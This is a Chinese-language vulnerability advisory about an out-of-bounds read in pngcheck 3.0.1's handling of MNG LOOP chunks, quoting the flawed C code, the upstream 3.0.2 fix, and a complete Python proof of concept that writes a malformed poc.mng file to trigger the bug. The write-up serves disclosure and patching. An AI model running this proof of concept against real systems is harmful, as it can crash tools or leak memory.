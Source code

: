 ```yaml
---
nav_path_prefix: Security > Vulns > pngcheck >
tags: [Out-of-bounds Read]
---
```


# Vulns in pngcheck 3.0.1

## 漏洞概要

[pngcheck](http://www.libpng.org/pub/png/apps/pngcheck.html) 是一个用于验证 PNG / JNG / MNG 文件格式的命令行工具。该工具在处理 MNG LOOP 块时，由于未充分验证块大小 (`sz`)，导致缓冲区越界读取。

## 漏洞原理

源码地址：[http://www.libpng.org/pub/png/src/pngcheck-3.0.1.zip](http://www.libpng.org/pub/png/src/pngcheck-3.0.1.zip)

```c title="pngcheck.c" linenums="3809"
} else if (strcmp(chunkid, "LOOP") == 0) {
  if (png || jng) {
    printf("%s  LOOP not defined in %cNG\n", verbose? ":":fname,
      png? 'P':'J');
    set_err(kMinorError);
  } else if (sz < 5 || (sz > 6 && ((sz-6) % 4) != 0)) {
   printf("%s  invalid %slength\n",
      verbose? ":":fname, verbose? "":"LOOP ");
    set_err(kMajorError);
  }
  if (verbose && no_err(kMinorError)) {
    printf(":  nest level = %u\n    count = %lu, termination = %s\n",
      (unsigned)(buffer[0]), LG(buffer+1), sz == 5?
      termination_condition[0] :
      U2NAME(buffer[5] & 0x3, termination_condition));
      /* GRR:  not checking for valid buffer[1] values */
    if (sz > 6) {
      printf("    iteration min = %lu", LG(buffer+6));
      if (sz > 10) {
        printf(", max = %lu", LG(buffer+10));
        if (sz > 14) {
          long i, count = (sz-14) >> 2;

          printf(", signal number%s = %lu", (count > 1)? "s" : "",
            LG(buffer+14));
          for (i = 1;  i < count;  ++i)
            printf(", %lu", LG(buffer+14+(i<<2)));
        }
      }
      printf("\n");
    }
  }
  last_is_IDAT = last_is_JDAT = 0;
```

当 `sz` 大于缓冲区 `buffer` 的最大大小 `BS` (`32000`) 时，`for` 循环继续执行，造成越界读取。

## 漏洞复现

- POC 代码：[poc.py](https://github.com/13m0n4de/pngcheck-vulns/blob/main/vulns-3.0.1/poc.py)
- POC 图片：[poc.mng](https://github.com/13m0n4de/pngcheck-vulns/blob/main/vulns-3.0.1/poc.mng)

```python title="poc.py"
#!/usr/bin/env python3
"""
PNGCheck Vulnerability POC Generator
Generates POC file demonstrating buffer over-read
vulnerability in pngcheck 3.0.1
"""

import argparse
import pathlib
import zlib

from construct import Bytes, Const, GreedyRange, Int32ub, Struct, this

Chunk = Struct(
    "length" / Int32ub,
    "type" / Bytes(4),
    "data" / Bytes(this.length),
    "crc" / Int32ub,
)


MNG = Struct(
    "signature" / Const(b"\x8aM\x4e\x47\x0d\x0a\x1a\x0a"),
    "chunks" / GreedyRange(Chunk),
)


def create_chunk(chunk_type: bytes, chunk_data: bytes) -> dict:
    return {
        "length": len(chunk_data),
        "type": chunk_type,
        "data": chunk_data,
        "crc": zlib.crc32(chunk_type + chunk_data) & 0xFFFFFFFF,
    }


def generate_poc(output_path: pathlib.Path) -> None:
    # Command: pngcheck -v poc.mng
    chunks = [
        create_chunk(b"MHDR", b"\x00\x00\x00\x01\x00\x00\x00\x01" + b"\x00" * 20),
        create_chunk(
            b"LOOP",
            b"\x00"  # nest_level(1)
            + b"\x00\x00\x00\x01"  # iteration_count(4)
            + b"\x00"  # termination_condition(1)
            + b"\x00\x00\x00\x01" * 10000,  # Iteration_min(4) + ...
        ),
        create_chunk(b"MEND", b""),
    ]
    MNG.build_file(dict(chunks=chunks), output_path)


def main():
    parser = argparse.ArgumentParser(
        description=(
            "Generate POC files for pngcheck 3.0.1 buffer over-read "
            "vulnerability (unchecked chunk size in LOOP chunk)"
        )
    )
    parser.add_argument(
        "-o",
        "--output",
        type=pathlib.Path,
        default="poc.mng",
        help="Output file path (default: poc.mng)",
    )
    args = parser.parse_args()

    print("Generating POC...")
    generate_poc(args.output)
    print("POC file generated successfully")


if __name__ == "__main__":
    main()
```

```
$ ./pngcheck -v poc.mng
```

## 漏洞修复

官方在 v3.0.2 版本中通过添加 `sz > BS` 校验修复漏洞：

```diff
@@ -3815,8 +3815,12 @@
         printf("%s  invalid %slength\n",
           verbose? ":":fname, verbose? "":"LOOP ");
         set_err(kMajorError);
-      }
-      if (verbose && no_err(kMinorError)) {
+      } else if (sz > BS) {
+	/* FIXME: large LOOP chunks should be supported */
+        printf("%s  checking large %schunk not currently supported\n",
+          verbose? ":":fname, verbose? "":"LOOP ");
+        set_err(kMinorError);
+      } else if (verbose && no_err(kMinorError)) {
         printf(":  nest level = %u\n    count = %lu, termination = %s\n",
           (unsigned)(buffer[0]), LG(buffer+1), sz == 5?
           termination_condition[0] :
```

## 参考资料

- [pngcheck Home Page](http://www.libpng.org/pub/png/apps/pngcheck.html)
- [MNG (Multiple-image Network Graphics) Format](http://www.libpng.org/pub/mng/spec)
